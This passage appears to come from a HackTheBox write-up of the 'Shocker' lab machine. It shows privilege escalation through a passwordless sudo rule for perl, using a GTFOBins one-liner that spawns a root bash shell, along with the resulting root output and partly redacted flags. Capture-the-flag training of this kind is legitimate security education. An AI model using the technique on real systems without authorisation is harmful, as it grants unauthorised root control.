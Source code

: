 ```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

 First thing I always check is what can the current user run as `sudo` but without a password. To do this, we can run `sudo -l`, if we're prompted for a password and we don't know it, then we're out of luck.... however, we're not out of luck here! We are able to run `/usr/bin/perl` as `sudo` without the need of a password. Huh, a programming language that we can run as root - I wonder whatever we'll be able to do with that? Maybe, tell it to start a new shell?

Yup! If you don't know immediately what to do, don't worry about it, let's go to [GTFOBins](https://gtfobins.github.io/) and look up perl to see if it has anything. If we search `perl` we can see that we can run a myriad of things, the one we're most interested in is `sudo`. According to GTFOBins, we can run `sudo perl -e 'exec "/bin/sh";'` and get a shell.. However, look at the results of `sudo -l` and you'll see that we need a TINY adjustment, we just need to specify the full path of perl. Easy enough:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
uname -a
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Alright, now we're talking. We don't have a *pretty* shell but we're root! And it was pretty easy too. And there we have it, we've exploited the machine and obtained root permissions, from here we can read the `/home/shelly/user.txt` and the `/root/root.txt` and get our whole 0 points from HackTheBox!

```bash

shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /home/shelly/user.txt
13f51b<-- REDACTED -->
cat /root/root.txt  
b1fd49<-- REDACTED -->
```
